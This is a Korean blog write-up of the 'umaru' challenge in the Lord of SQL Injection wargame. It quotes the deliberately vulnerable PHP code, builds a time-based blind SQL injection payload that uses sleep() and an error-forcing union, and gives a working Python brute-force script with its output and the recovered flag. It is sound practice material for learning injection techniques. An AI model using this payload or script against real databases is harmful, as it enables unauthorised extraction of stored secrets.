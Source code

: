 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection : eagle-jump] LoS - umaru 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


내가 지금 문제를 풀고 있는 서버는 `los.rubiya.kr`인데, `los.eagle-jump.ord`에도 같은 문제가 있다.  

그런데 `eagle-jump` 서버의 마지막 문제는 `rubiya`의 서버에 없는 것 같아 따로 풀어보게 되었다.  

<!--more-->

코드는 다음과 같다.  

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();

  function reset_flag(){
    $new_flag = substr(md5(rand(10000000,99999999)."qwer".rand(10000000,99999999)."asdf".rand(10000000,99999999)),8,16);
    $chk = @mysql_fetch_array(mysql_query("select id from prob_umaru where id='{$_SESSION[los_id]}'"));
    if(!$chk[id]) mysql_query("insert into prob_umaru values('{$_SESSION[los_id]}','{$new_flag}')");
    else mysql_query("update prob_umaru set flag='{$new_flag}' where id='{$_SESSION[los_id]}'");
    echo "reset ok";
    highlight_file(__FILE__);
    exit();
  }

  if(!$_GET[flag]){ highlight_file(__FILE__); exit; }

  if(preg_match('/prob|_|\./i', $_GET[flag])) exit("No Hack ~_~");
  if(preg_match('/id|where|order|limit|,/i', $_GET[flag])) exit("HeHe");
  if(strlen($_GET[flag])>100) exit("HeHe");

  $realflag = @mysql_fetch_array(mysql_query("select flag from prob_umaru where id='{$_SESSION[los_id]}'"));

  @mysql_query("create temporary table prob_umaru_temp as select * from prob_umaru where id='{$_SESSION[los_id]}'");
  @mysql_query("update prob_umaru_temp set flag={$_GET[flag]}");

  $tempflag = @mysql_fetch_array(mysql_query("select flag from prob_umaru_temp"));
  if((!$realflag[flag]) || ($realflag[flag] != $tempflag[flag])) reset_flag();

  if($realflag[flag] === $_GET[flag]) solve("umaru");
?>
```

뭔가 엄청 복잡 해 보인다.  

자세히 살펴보면, `reset_flag()` 라는 함수에서 `$new_flag`라는 변수를 생성한다.  

이 변수는 `랜덤숫자+qwer+랜덤숫자+asdf`를 `md5`로 해싱한 후 16글자만을 자른 값이다.  

그 후, 나의 `los_id`와 함께 테이블에 값을 저장한다.  

내가 넘길 수 있는 쿼리스트링은 `flag` 뿐이다.  

그런데 `$_GET['flag']`가 여러 곳에서 사용되는데, 내가 `flag`의 값을 넘겨주면, 몇 가지 필터링을 검사한 후 데이터베이스에 저장 된 나의 `flag`를 찾아 `prob_umaru_temp` 테이블에 저장한다.  

이 후, 이 테이블에 내가 입력 한 `flag`의 값을 임시로 새로 생성 한 테이블에 저장한다.  

그리고 원래 테이블에 저장되어 있던 `flag`의 값과, 임시 테이블에 저장되어 있는 `flag`의 값을 비교하는데, 만약 값이 다르거나 원래 테이블에 `flag`가 없다면 `reset_flag()` 함수를 실행시킨다.  

즉, `flag`를 맞추지 못하면 계속 랜덤 값으로 `flag`가 바뀐다. ㅠㅠ  

따라서 문제를 풀기 위해서는 다음과 같은 조건이 필요하다.  

> 1. flag의 값은 100글자를 넘기지 말 것  
> 2. flag가 갱신되지 않도록 update 쿼리문에서 에러를 발생시킬 것  
> 3. ,를 사용할 수 없기 때문에 sleep 함수를 사용해 값을 찾을 것  

일단 문제에서 해쉬값 중 16글자를 잘라 테이블에 저장하므로, `flag`의 길이는 16글자임을 알 수 있다.  

때문에 값만 찾아내면 된다.  

일단 위의 조건을 만족하는 쿼리를 찾기 위해 서버에서 이것저것 테스트 해 보았다.  

제일 먼저 찾은 쿼리는 다음과 같다.  

```
update prob_umaru_temp set flag=sleep(3 * (flag like 'a%')) + (select 1 union select 2)
```

이러면 먼저 `sleep()` 함수 내에서 `flag`의 값이 `a%`와 같은지를 비교하고, 같다면 `1`이 되기 때문에 `sleep(3*1)`이 만들어 진다.  

즉, 3초 동안 `sleep()` 함수를 실행하게 된다.  

반면 다를 경우에는 `flag like 'a%'`가 0이 되어 `sleep(3*0)`이 만들어 지기 때문에 `sleep()` 함수를 실행하지 않는다.  

`sleep()` 함수를 실행한 후에는 `+`연산으로 연결 된 `select 1 union select 2`를 실행하는데, 이 전 문제들에서도 사용했다시피 해당 쿼리는 에러를 유발한다.  

때문에 결과적으로 완성되는 쿼리는 에러가 발생하기 때문에 `update` 문을 실행하지 않게 되고, `prob_umaru_temp` 테이블과 `prob_umaru` 테이블에 저장된 `flag`의 값은 일치하기 때문에 `reset_flag()` 함수를 실행하지 않는다.  

그래서 이를 바탕으로 코드를 구현해서 테스트 해 보았는데, 아무리 해도 결과가 나오지 않았다.  

내 서버에서는 잘 되는데, 문제 서버에서는 안되길래 뭔가 설정이 다르게 되어있나 싶어서 연산자를 이것저것으로 바꿔 보았다.  

그 결과 `|`를 쓰니 값을 추출할 수 있었다.  

구현한 코드는 아래와 같다.  

```python
import urllib2
import urllib
import requests
import time

flag = ""
length = 16

url = "https://los.eagle-jump.org/umaru_6f977f0504e56eeb72967f35eadbfdf5.php?flag="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 123):
		try:
			start = time.time()
			query = url + "sleep(3 * (flag like '" + str(flag) + str(chr(i)) +"%')) | (select 1 union select 2)"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if (time.time() - start) > 3:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

이 코드를 돌리면 아래와 같은 결과를 얻을 수 있다.  

```
$ python ex.py 
[+] Start
[+] Find password
[+] Found 1 : 8
[+] Found 2 : 89
[+] Found 3 : 892
[+] Found 4 : 8925
[+] Found 5 : 89253
[+] Found 6 : 892531
[+] Found 7 : 8925316
[+] Found 8 : 89253169
[+] Found 9 : 89253169C
[+] Found 10 : 89253169CE
[+] Found 11 : 89253169CE9
[+] Found 12 : 89253169CE98
[+] Found 13 : 89253169CE987
[+] Found 14 : 89253169CE987D
[+] Found 15 : 89253169CE987D1
[+] Found 16 : 89253169CE987D15
[+] Found password :  89253169CE987D15
[+] End
```

`php`에서 `md5` 함수를 사용하면 알파벳 소문자로 값이 출력되므로, 데이터베이스에 저장된 값도 소문자로 이루어져 있을 것이다.  

따라서 알파벳 대문자를 소문자로 바꾸어 아래와 같이 입력했다.  

```
?flag=89253169ce987d15
```

`eagle-jump` 서버를 `All Clear` 했다!!!  

이제 `rubiya` 서버에도 몇 문제 안남았으니 빨리 다 풀어야지 ㅎㅎㅎ  

```php
UMARU Clear!
```

![](/images/los/umaru/umaru_01.png)
